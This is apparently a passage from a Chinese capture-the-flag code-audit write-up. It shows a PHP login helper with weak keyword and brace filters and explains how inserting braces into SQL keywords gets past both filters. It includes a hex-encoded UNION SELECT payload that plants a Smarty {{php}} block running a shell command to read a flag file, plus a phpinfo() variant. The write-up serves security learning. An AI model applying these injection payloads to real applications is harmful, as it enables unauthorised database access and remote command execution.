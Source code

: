 ```php
			$username = $this->sql_safe($username);
			$username = $this->safe_render($username);
			$userView = $this->db->query("SELECT userView FROM userRender WHERE username='$username'")->result();
			$userView = $userView[0]->userView;
			return $userView;
		}else{
			return false;
		}
	}
	private function safe_render($username){
		$username = str_replace(array('{','}'),'',$username);
		return $username;
	}

	private function sql_safe($sql){
		if(preg_match('/and|or|order|delete|select|union|load_file|updatexml|\(|extractvalue|\)|/i',$sql)){
			return '';
		}else{
			return $sql;
		}
	}
}
```

需要绕过一下safe_render和sql_safe函数的过滤

过滤顺序是先sql_safe再safe_render所以可以先使用花括弧将被过滤的关键子隔开在通过sql_safe后safe_render又会花括弧去掉实现绕过

非预期：直接注册`' uni{on sele{ct  0x7b7b7068707d7d73797374656d2827636174202f57656c4c5f546831735f31345f666c346727293b7b7b2f7068707d7d #`

7b7b7068707d7d706870696e666f28293b7b7b2f7068707d7d

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2032.png)
